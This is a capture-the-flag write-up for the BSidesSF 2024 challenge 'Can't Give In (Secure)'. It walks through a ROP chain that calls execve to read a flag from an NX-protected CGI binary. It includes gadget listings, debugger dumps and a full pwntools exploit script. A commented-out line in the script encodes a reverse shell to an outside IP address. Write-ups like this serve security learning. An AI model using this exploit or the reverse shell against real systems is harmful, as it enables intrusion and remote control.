



# Can't Give In (Secure)

## Description
Can you get a shell?

_Note: this is similar to cant-give-in, but the stack is no longer executable_

Flag is located in: `/home/ctf/flag.txt`

Author: ron

http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080

## Approach
> Same, same, but different. Still can't get a shell tho.

Given a binary with protection as below.
```
[*] "/mnt/d/ctf-writeups/BsideSSF 2024/Can't Give In (Secure)/auth.cgi"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So this challenge is the same as [Can't Give In](../Can't%20Give%20In). But with additional NX protection, we can't just write a shellcode and jump to it. So i opted to another technique that is ROP-ing.

Looking at the disassembled binary, it is still the same.


Still, i can't pop a shell because of unknown reason _(skill issue)_. So i decided to just read the flag. To read the flag, i need to call `execve` exactly like this:

```
execve('/bin/sh', ["/bin/sh", "-c", "cat /home/ctf/flag.txt"], NULL)
```

Simple right? Just put the the right thing in the right place and it should have worked? Not really.

So after consulting with my [friend](https://github.com/HyggeHalcyon) (Credit to him), i realized that execve is actually like this:

```
execve(const char *pathname, char *const argv[], char *const envp[])
```

If this was a regular pwn challenge, we could just put the address of `/bin/sh` in the first argument, zeroed out the second and third argument and still pop a shell. But this time, we need to specify what argument to pass into the `/bin/sh`, in this case, we need to pass `"/bin/sh", "-c", "cat /home/ctf/flag.txt"`.

Argv is actually a `pointer, pointing to a pointer that is pointing to the string` ([explained better by my friend here](https://hyggehalcyon.gitbook.io/page/ctfs/2024/bsidessf-ctf#exploitation-1)). So what we need to do is to just write the address of the address that is pointing to the string.

For this to work, we need to write the argument to a known address, thankfully, there is a gadget that can do that.

```
[+] Gadget found: 0x43b0f1 mov qword ptr [rsi], rax ; ret
[+] Gadget found: 0x40f782 pop rsi ; ret
[+] Gadget found: 0x4387a7 pop rax ; ret
[+] Gadget found: 0x42b8a0 xor rax, rax ; ret
```

The next step is to look for writable section of the address. Upon inspection, i found out that at address `0x4a7380` is writable, and it didn't have any data on it, perfect!



Now we need to use our `write-what-where` gadget that we have found earlier. To make it easier for us to specify the `what` and the `where`, i wrote a function for it.

```python
def www(what, where):
    pop_rsi = 0x40f782
    pop_rax = 0x4387a7
    mov_rsi_rax = 0x43b0f1
    
    payload = flat(
        pop_rsi,
        where,
        pop_rax,
        what,
        mov_rsi_rax,
    )
    return payload
```

After finding the offset, we need to put our argument using the write-what-where gadget:

First we write our arguments on the memory.
```python
www(what1, addr), # /bin/sh
www(what2, addr + 8), # -c
www(spawn_shell[0], addr + 16), # cat /home/ctf/flag.txt
www(spawn_shell[1], addr + 24),
www(spawn_shell[2], addr + 32),
```

Then we need to put the address of the string to another location in the memory, so that argv correctly points to the string.
```python
www(addr, addr + 40), # points to pointer to /bin/sh
www(addr + 8, addr + 48), # points to pointer to -c
www(addr + 16, addr + 56), # points to pointer to cat /home/ctf/flag.txt
```

Here is the arguments when calling execve:
```
► 0x4011a2 <abort+137>       syscall  <SYS_execve>
        path: 0x4a7380 (_dl_static_dtv+32) ◂— 0x68732f6e69622f /* '/bin/sh' */
        argv: 0x4a73a8 (_dl_static_dtv+72) —▸ 0x4a7380 (_dl_static_dtv+32) ◂— 0x68732f6e69622f /* '/bin/sh' */
        envp: 0x0
```

And here is the content of the memory after we write to it:

```
pwndbg> x/64gx 0x4a7380
0x4a7380 <_dl_static_dtv+32>:   0x0068732f6e69622f      0x000000000000632d
0x4a7390 <_dl_static_dtv+48>:   0x6d6f682f20746163      0x6c662f6674632f65
0x4a73a0 <_dl_static_dtv+64>:   0x00007478742e6761      0x00000000004a7380
0x4a73b0 <_dl_static_dtv+80>:   0x00000000004a7388      0x00000000004a7390
0x4a73c0 <_dl_static_dtv+96>:   0x0000000000000000      0x0000000000000000
0x4a73d0 <_dl_static_dtv+112>:  0x0000000000000000      0x0000000000000000
```

And we don't even have to worry terminating the `argv` arrays with null bytes, because the section of the memory already does it for us.

Sending our payload to the server and we get the flag!


## Exploit
```py
#!/usr/bin/python3
from pwn import *
import requests

# =========================================================
#                          SETUP
# =========================================================
exe = "./auth.cgi"  # <-- change this
elf = context.binary = ELF(exe, checksec=True)
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

gdbscript = """
init-pwndbg
break main
""".format(
    **locals()
)

def www(what, where):
    pop_rsi = 0x40f782
    pop_rax = 0x4387a7
    mov_rsi_rax = 0x43b0f1
    
    payload = flat(
        pop_rsi,
        where,
        pop_rax,
        what,
        mov_rsi_rax
    )
    return payload


# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    # io = initialize()
    # rop = ROP(exe)

    what1 = b"/bin/sh\x00"
    what2 = b"-c\x00\x00\x00\x00\x00\x00"
    # spawn_shell = [b'sh -i >&', b' /dev/tc', b'p/18.136', b'.118.43/', b'1337 0>&', b'1\x00\x00\x00\x00\x00\x00\x00']
    spawn_shell = [b'cat /hom', b'e/ctf/fl', b'ag.txt\x00\x00', b'\x00\x00\x00\x00\x00\x00\x00\x00', b'\x00\x00\x00\x00\x00\x00\x00\x00', b'\x00\x00\x00\x00\x00\x00\x00\x00'] # cat flag doang
    
    pop_rax = 0x4387a7
    pop_rdi = 0x401d90
    pop_rsi = 0x40f782
    pop_rdx_rbx = 0x4696d7
    syscall = 0x4011a2
    addr = 0x4a7380
    
    offset = 168
    payload = flat({
        offset: [
            www(what1, addr), # /bin/sh
            www(what2, addr + 8), # -c
            www(spawn_shell[0], addr + 16), # cat /home/ctf/flag.txt
            www(spawn_shell[1], addr + 24),
            www(spawn_shell[2], addr + 32),
            
            www(addr, addr + 40), # points to /bin/sh
            www(addr + 8, addr + 48), # points to -c
            www(addr + 16, addr + 56), # points to cat /home/ctf/flag.txt
            
            pop_rdi,
            addr,
            
            pop_rsi,
            addr + 40,
            
            pop_rdx_rbx,
            0,
            0,
            
            pop_rax,
            0x3b,
            syscall
        ]
    })
    
    response = requests.post("http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080/cgi-bin/auth.cgi", data=payload)
    print(response.text)
    # write("payload", payload)
    
    # io.send(payload)
    # io.interactive()


if __name__ == "__main__":
    exploit()
```


## Flag
```
CTF{computational-genius-institute}
```